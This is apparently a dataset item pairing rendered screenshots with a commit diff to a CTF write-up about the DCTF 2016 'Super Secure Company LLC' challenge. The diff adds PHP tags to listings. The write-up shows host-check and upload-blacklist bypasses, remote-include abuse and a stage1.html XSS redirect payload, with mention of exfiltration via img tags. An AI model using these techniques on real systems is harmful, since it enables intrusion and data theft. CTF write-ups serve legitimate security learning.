

Before and after one commit to mtps3/Mtps3.github.io, a Jekyll site: the page built from _posts/2016-09-25-dctfquals2016-super-secure-company-llc.md, in a window 1280 px wide and 1400 px high, scrolled down 818 px. Shown: the whole window, without its empty margins (233-1046 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Added '<?php' to listing so that we have php syntax highlighting for the snippets

````diff
--- a/_posts/2016-09-25-dctfquals2016-super-secure-company-llc.md
+++ b/_posts/2016-09-25-dctfquals2016-super-secure-company-llc.md
@@ -33,6 +33,7 @@ We were pretty sure that the representative visiting the submitted url was a bot
 
 ```php
 switch($page) {
+<?php
 // [...]
     case 'logs':
         // this case is probably visisted by the bot
@@ -49,6 +50,7 @@ switch($page) {
         $id = intval(@$_REQUEST['id']);
         $db->query('UPDATE urls set view=1 where id='.$id);
 //[...]
+?>
 ```
 
 Only URLs which match some hardcoded host are shown (and therefore visited). So the bot never got to see our submitted URLs. Let's see how we can bypass this check.
@@ -61,6 +63,8 @@ There is this rather strange handling of the `page=print` case in the `index.php
 
 
 ```php
+<?php
+[...]
     case 'print':
         $url   = base64_decode($_REQUEST['url']);
         $title = '';
@@ -72,12 +76,13 @@ There is this rather strange handling of the `page=print` case in the `index.php
             $content = only_body($content);
         }
     break;
+[...]
+?>
 ```
 
 This code will download and include anything that comes from a url provided via (base64 encoded) get parameter. Unfortunately there is a check that requires the provided URL to begin with a certain string. By playing around a little bit, we can deduce that the provided URL must begin with the webapp's host/ip, therefore `http://10.13.37.13`.
 
-Interestingly here we can see that the URL doesn't end in a `/`, or someting
-like that, so we can bypass the check using either of two different methods:
+Interestingly here we can see that the URL doesn't end in a `/`, or someting like that, so we can bypass the check using either of two different methods:
 
 ```
 http://10.13.37.13@example.com/
@@ -162,9 +167,13 @@ This url also bypasses the proper host checking in `admin.php`, because of cours
 Unfortunately the `admin.php` script had a rather lazy, but for a xss hacker also nasty check at the top:
 
 ```php
+<?php
+[...]
 //lazy admin approach to "authenticate"
 if($_SERVER['REMOTE_ADDR'] !== '127.0.0.1') {
     die('You are not allowed.');
+[...]
+?>
 }
 ```
 
@@ -243,9 +252,13 @@ We are gonna use two XSS stages.
 But the file upload code disallowed certain file extensions:
 
 ```php
+<?php
+[...]
 if($extension == '' || $extension == 'php' || $extension == 'htaccess'
    || $extension == 'pl' || $extension == 'py' || $extension == 'c'
    || $extension == 'cpp' || $extension == 'ini' || $extension == 'html') { // fail
+[...]
+?>
 ```
 
 Fortunately the `.php5` extension was not part of the blacklist, so we just used that.
@@ -263,8 +276,7 @@ Fortunately the `.php5` extension was not part of the blacklist, so we just used
 
 ### Attack code
 
-Here is the `stage1.html` we used. Including some diagnostics exfiltrated via
-`img` tags.
+Here is the `stage1.html` we used. Including some diagnostics exfiltrated via `img` tags.
 
 ```html
 <script>
@@ -274,8 +286,7 @@ window.location = "http://127.0.0.1/?page=print&url=aHR0cDovLzEwLjEzLjM3LjEzLmYw
 </script>
 ```
 
-Here is the `stage2.html` we used in the end. We had a couple of different
-versions of the payload until we got it right.
+Here is the `stage2.html` we used in the end. We had a couple of different versions of the payload until we got it right.
 
 ```html
 <script src="https://ajax.googleapis.com/ajax/libs/jquery/1.12.4/jquery.min.js"></script>
````
